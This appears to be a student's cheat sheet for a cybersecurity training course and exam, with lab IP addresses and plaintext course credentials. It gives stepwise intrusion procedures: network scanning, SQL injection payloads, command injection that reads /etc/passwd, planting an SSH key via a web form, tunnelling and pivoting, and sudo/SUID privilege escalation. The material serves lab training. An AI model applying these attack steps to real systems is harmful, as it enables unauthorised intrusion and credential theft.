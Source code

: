 # SecCCTC
NEW Security CCTC


OP station LINUX 10.50.21.175 

uploads 10.50.22.59/uploads for more info
______________________________
17
JORO-501-W
Bhe032390!!
10.50.23.20 < -jump box 

____________________________

http://10.50.20.103:8000/challenges  < -- - challenges 



Needed commands
_______________________________________________________
1- for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
2- proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5   or -iL --openm
3- proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse    < -- finds other webpages
== python server command ==	
	python -m SimpleHttpServer

xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboar
___________________________________________

make a SSH KEY 

On opstation
ssh-keygen -t rsa -b 4096
cat .ssh/id_rua.pub
ssh www-data@ip  ( or whatever the webuser is)
9- find the userers in the /etc/password then navigate down to find the file with ls -la 
10 - move the map to the host system 

try to insert an your own key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>  or other path
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 


  -______________________________________
  to get to second box student@ip -L 41711:192.168.28.120:4242
  then new tunnle of ssh student@127.0.0.1 -D 9050 




__________________________________________________________________
        Windows Priv esculation: Importatant to know
===First THING TO DO IS SHOW HIDDEN FILES!====
	File Explorer > File > Hidden files4624/4625
 	Always use ls -la

Next: Search: ==Task Scheduler===
	search bar > Task Scheduler  > new tasks are listed at top > Look in TS Library ..ignore one_drive stuff > Look at TRIGGERS Tab > Actions tab >  
 		 OR  schtasks /query /fo LIST /v  > powershell  >schtasks /query /fo LIST /v  | Select-String  -Pattern "Task To Run" | find /i /v "com handler"  > Start at the top look for putty.exe
    
Next: == Check Processes==
    	tasklist /v > note the PID (2222 or whatever) > query session > look at what your number session is > go back and view the tasklist /v | what you found > wmic process get name, processid, parentproessid, sessionid > scroll up to find the process you noted write down the parant process > wmic process ,where (processid=2222) list full > Do the same with the parent process you wrote > tasklist /svc | findsr /i "parent process you found" > find the location with <where /R c:\putty.exe>

Next == Services==
	look under services  > sort by discription > look for blank space > right click properties > look under all tabs > use for the ""for /f  "tokens"" command > use wimic command next > OR sc qc testservice2

 Next: == registry==   registry editor
 	HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\
  	HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\
   make sure to double click on stuff to see whole path

Next: == Audit Logging ==
auditpol /get /category:* | findstr /i "success failure"

LOOK AT EVENT ID'S 
	4624/4625 - Successful / failed login
 	4720 - Account Created
  	4672  - Administrative user logged on
   	7045 - Service created

Next: == Event Viewer ==
	

xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboard



___________________________________________________________________




FOR TEST
When given an IP
1 - <nmap -Pn -sT 10.0.0.X -p- -T5 >any ip that is given (Pivot box) 
2 – any port 80s or http ports run : proxychains nmap -Pn -sT 10.0.0.X -p 80 --script http-enum.nse  to find extra webpages
3- Try all /webstuff	
	    /more webstuff
		/lostawebstuff
  ____________________________________________________________________________________________________________________________
  ONCE ON A WEBPAGE
4- The  Box that has inputs : hit go button. Then past in the Possible_end.txt in one box / To_war in another grab info for flag,
5- On the same box, command inject one of them try: ; ls -la || ; /whoami  || ; pwd  || ; cat /etc/passwd || ; cat /etc/hosts
6- grab all users from the cated etc/passwd and save them someplace (www-var ect) 
7 – try to insert an your own PUB_key after trying tom’ OR 1 = ‘1 in both fields:
		1 -In webpage box:    < mkdir /users/home/directory/.ssh>
		2 – echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys 
		3-  cat /users/home/directory/.ssh/authorized_keys 
8- from your Lin_ops box you should be able to <ssh user@ip> without a password
***********Note: I would suggest making a new key: <ssh-keygen -t rsa> ************
__________________________________________________________________________________________________________________________

IF YOU FIND THE MAP WITH IP ADDRESS.. Make sure to EOM or scp the map to view
9- look at the map that you found for IP address.  Located at the bottom of the mad (Hint: there is also a flag)
__________________________________________________________________________________________________________________________

Tunnleing creationg and scanning for the new IPs
10 – Create a Dynamic tunnel so you can scan those IP’s (optional) IF not go to step 11. (ssh www-data@ip -D 9050)
11 – run <for i in {96..127}; do (ping -c 1 10.0.0.$i | grep "bytes from" &); done> in pivot box you got into for each IP address. (www-data box)
12 – run proxychains nmap -Pn -sT 10.0.0.X -p 1-10000 -T5 on each of the new IP’s you found. Notate any ports then run step 2 to see if there is any info for any webpages found 
13 – navigate to the new wepage and repeat step 3 
14 – Look at <page  sources> for any links as well
15 – if you come across a box that looks like it is a table: Try eploiting the URL Bar:
	A-	First try <coolwebsite.com.php? selection=1 Or 1=1> or 2 or 3 ect until tables ALL drop
	B-	Any columns displayed, put them in order <selection=<# your found> UNION SELECT 1,2,3 ect>
	C-	Use the GOLDEN STATEMENT < SELECT table_schema,table_name,column_name, 4 FROM information_schema.columns;>
 __________________________________________________________________________________________________________________________

 
PART 2
1 – In your Lin-OPS TRY EVERY COMBINATION AND PASSEORD that is given!! You should get 
A-	Linux box
B-	Windows box
_______________________________________________________________________________________


WINDOWS BOX:  FOLLOW THE WINDOWS STEPS ABOVE Line 51
1-	to access the Windows box first run a scan on the IP address that is given <step 11>
2-	run an NMAP on each new IP you found <step 1>
3-	find the box the you logged into as a windows user, look for the port that can run RDP (3889)
4-	RDP into that box 
____________________________________________________________________________________________________
a.	Set up your L tunnel <ssh www-data@jumpIP -L 1111:WinBoxIP:3389>
b.	xfreerdp /u:student /v:localhost:RHP /dynamic-resolution +clipboard
5-	Look around for files in USERS. Go to < C drive >> Users > Look for a sus folder
6-	For Persistence  check the regedit < search bar – regedit – follow the HKEY path  -- look at all the paths there and make sure to copy the ENTIRE path of the sus one. The file path is the last </name.here>
7-	For Called Program, follow the path:  <C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -executionpolicy bypass -windowstyle hidden -NoExit -file "C:\Program Files\scripts\kpersky_start.ps1">
8-	To get into admin home: You need to grab the file that they will give us and transfer it from your HOST to your WINDOWS: (Log into your account and download it)
	a.	On the windows box, open a webpage, navigate to the test website, download file. DONE use the account name and pass they give ya
____________________________________________________________________________________________________

Linux Explotaition
192.168.28.10 Kmichae pass MrMeeseeks 
1- sudo -l  < -- if this works goto GTFO webpage and search for the exploit! Copy past exploit then type <bash> for a esculated shell.
2 –<Bash> then ls -la 
3 you will see exploit.this
4- ./exploitthis AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
____________________________________________________________________________________________________

For inside root dir, 
1-	Log in as the user, 
2-	Sudo -l 
3-	Look for set UID and GUID
4-	Use the  find / -perm command <command here>
5-	A list of binaries will show
6-	On linops, run the same exact command and compare both of them Find the one that is not on one of the systems
7-	Then go to GTFO and look up that one and reserc the exploit
8-	 Make sure you do the intire path -p 
5 – Next follow buffer overflow steps.
For what program can give you higher priv, mak sure you find the buffer overflow  file in one of the questions

1-	To see what is inside the root dierectory
2-	2 find what Binary used 
POST exploitation
	1 – To view running process <ps -elf > look for one that ryscslogd
3-	Cat /ect/rcyslog.conf  for flag in comments
4-	To find the password use the find command find / iname “password” -file the cat the full path to file 
